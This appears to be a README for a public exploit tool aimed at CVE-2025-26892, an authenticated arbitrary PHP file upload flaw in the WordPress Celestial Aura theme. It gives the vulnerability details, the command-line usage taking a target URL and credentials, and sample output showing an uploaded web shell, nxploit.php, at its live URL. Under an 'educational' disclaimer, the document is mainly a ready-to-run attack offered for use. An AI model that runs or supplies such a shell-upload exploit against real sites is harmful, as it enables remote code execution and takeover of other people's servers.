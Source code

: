 
# CVE-2025-26892 – WordPress Celestial Aura Theme <= 2.2 Arbitrary File Upload (Authenticated)

## 📄 Description

An **Unrestricted File Upload** vulnerability exists in the WordPress **Celestial Aura** theme (developed by *dkszone*) up to version **2.2**.  
A low-privileged authenticated user can upload arbitrary PHP files through the theme's admin panel, potentially leading to **Remote Code Execution (RCE)**.

- Affected theme: `Celestial Aura`
- Affected versions: ≤ 2.2
- Vulnerable file: `wp-admin/admin.php?page=CA-settings`
- Exploitable by: Any authenticated user (subscriber and above)
- No nonce, file type, or extension validation

## 🛡️ CVSS Score

**Patchstack CNA Rating:**
- **Base Score:** 9.9 (CRITICAL)
- **Vector:** `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H`

## 🚀 Usage

```
usage: CVE-2025-26892.py [-h] --url URL --username USERNAME --password PASSWORD

CVE-2025-26892 | WordPress Celestial Aura Theme <= 2.2 Arbitrary File Upload (Authenticated)

options:
  -h, --help            Show this help message and exit
  --url, -u URL         Target WordPress site (e.g., http://127.0.0.1/wordpress)
  --username, -un       WordPress username (any authenticated user)
  --password, -p        WordPress password
```

The script logs in with the provided credentials, uploads a malicious PHP shell (`nxploit.php`) via the vulnerable theme settings, and prints the direct URL to the uploaded shell.

## ✅ Successful Exploit Output

```
[+] Exploit sent successfully.

[+] Form Fields Sent:
  - CA_hdrimage: yes
  ...
  - CA_save: Save changes

[+] Shell Location:
http://target-site/wp-content/uploads/nxploit.php

Exploit By: Khaled_alenazi (Nxploited)
```

## ⚠️ Disclaimer

This project is for **educational and authorized penetration testing** purposes only.  
Any misuse of this tool is not the responsibility of the author.
